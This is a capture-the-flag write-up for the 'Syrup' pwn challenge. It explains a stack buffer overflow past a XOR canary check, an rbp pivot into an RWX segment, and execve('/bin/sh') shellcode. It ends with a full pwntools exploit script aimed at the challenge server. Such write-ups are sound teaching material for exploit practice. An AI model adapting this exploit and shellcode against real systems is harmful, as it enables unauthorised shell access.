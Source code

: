 # Syrup

Binary's a little wacky, let's look into it.

There's no libc used whatsoever, everything is syscalls.

When the binary starts, it calls the \_start function. This function is simple, it uses sys\_write to print out "Can you pwn me?", then calls fn1, then jumps to the function nope.

Let's disassemble fn1. sets rax to the xor of 0xbeef and 0xdead, and pushes this onto the stack.

It then moves rbp to be rsp-0x400, and reads 0x800 bytes from stdin at rbp. Afterwards, it pops rax off of the stack, XORs it with 0xbeef, and checks if the value is 0xdead.

If not, it jumps to the nope function. Otherwise, it rets, popping rbp off the stack before hand

This creates a simple buffer overflow. At the time of our input, the stack looks like this

rbp 0x400 bytes rsp -&gt; value to be popped into RAX value to be popped into RBP return address previous stack frame

we can overflow with 0x400 bytes of padding, and then the value of 0xdead ^ 0xbeef.

The binary has no protections whatsoever, including lack of NX.

There is a RWX segment within the binary. Because fn1 uses rbp to mark where it starts its input, and we get a pop into rbp, we can set rbp to be the address of the RWX segment, and then ret into the instruction in fn1 that starts the input. Then, we enter shellcode, and ret to that address. Script below. \(I wrote custom shellcode that uses the fact that /bin/sh is written just before it\)

```python
from pwn import *
rax = 0xdead ^ 0xbeef
e = ELF("./syrup")
payload = b'A' * 0x400 + flat(rax,0x402000, 0x000000000040105d,rax,b'B' * 8, 0x402000+8, word_size=64)
#p = e.process()
p = remote('jh2i.com', 50036)
p.recvline()
pause()
p.sendline(payload)
p.clean()
#Send shellcode
shellcode = asm("mov rdi,0x402000 ; mov rsi,0 ; mov rdx,0 ; mov rax,0x3b ; syscall", arch='amd64')
pause()
p.sendline(b"/bin/sh\x00" + shellcode)
p.interactive()
`
```

